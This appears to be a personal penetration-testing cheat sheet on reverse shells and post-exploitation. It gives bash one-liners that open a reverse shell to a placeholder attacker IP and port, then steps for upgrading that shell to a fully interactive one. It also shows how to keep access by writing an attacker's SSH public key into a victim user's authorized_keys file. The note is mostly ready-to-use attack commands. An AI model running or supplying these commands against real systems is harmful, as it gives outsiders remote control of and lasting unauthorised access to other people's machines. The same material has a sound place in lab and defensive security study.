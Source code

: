 # Shells

Always remember to check your IP: [[Linux Networking#Get your IP]]

## Bash Reverse

```bash
bash -i >& /dev/tcp/[IP]/[PORT] 0>&1
```

or

```bash
bash -c 'bash -i >& /dev/tcp/[IP]/[PORT] 0>&1'
```

## Upgrading a Shell

Often, you can simply run `/bin/bash` or equivalent to launch a better shell.

Use `echo "$SHELL"` to determine the shell you're using. Then specify the full path to that shell and it will sometimes spawn you a better, more interactive shell.

```bash
┌──(mac㉿kali)-[~]
└─$ echo "$SHELL"
/bin/bash
┌──(mac㉿kali)-[~]
└─$ /bin/bash
```

### Using Python to spawn /bin/bash

```bash
which bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Backgrounding Shell Trick

Within your shell, possibly after spawning a `/bin/bash` process with python, do the following to fix the interactivity in your shell:

- Press `Ctrl + z` to background the process
- Execute the command `stty raw -echo` on your host machine
- Type `fg` on your host (you will not see this on screen)
- Press the `Enter` key twice

You should now have an interactive shell!

You can then run `export TERM=xterm` to allow clearing the terminal.

If your line wrapping seems off, you may need to recalibrate the columns and rows in your new shell. Do the following:

- Execute `stty -a` on your host machine and make a note of the rows and columns number
- In your new shell, execute `stty rows Y cols X` where Y is your number of rows and X is your number of columns

*Note:* This does not work in meterpreter or metasploit shells in general.

### Use your shell to write an SSH key

This is one of the most reliable ways of getting an interactive shell - if you have permissions to pull it off.

First, generate a key pair to use to access the box (do this on your host machine):

```bash
$ ssh-keygen -f key_name
```

Then read the public key and copy it to your clipboard:

```bash
$ cat key_name.pub
```

On the victim box, find the user you would like to remotely access - in this example, `victim`:

```bash
$ echo 'CONTENTS_OF_KEY' >> /home/victim/.ssh/authorized_keys
```

Then ssh in from your host:

```bash
ssh -i key_name victim@IP_ADDRESS
```

### Girsh

[Repo link](https://github.com/nodauf/Girsh)

# Tags

#cheat-sheet #unix